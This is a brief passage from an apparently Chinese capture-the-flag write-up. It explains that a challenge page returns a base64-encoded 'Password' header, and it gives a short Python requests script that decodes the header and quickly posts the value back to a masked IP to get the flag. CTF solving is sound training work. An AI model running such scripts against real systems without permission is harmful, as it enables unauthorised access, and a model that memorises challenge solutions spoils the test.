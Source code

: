 推测需要先发送一个请求截取Password字段，然后base解密取flag{}内包含的值作为password的值发包，速度要快。

Payload:

```python
import requests
import base64
url = 'http://123.xxx.xxx.85:10013/index.php'
r = requests.session()
r1 = r.post(url, data = {'password':'flag'})
Password = r1.headers['Password']
password = str(base64.b64decode(Password), 'utf-8')[5:-1]
r2 = r.post(url, data = {'password':password})
print(r2.text)
```

![](/assets/images/move/1552220059150-18b9cb9e-a1f6-4e18-b8cc-85725c7ea97f.png)



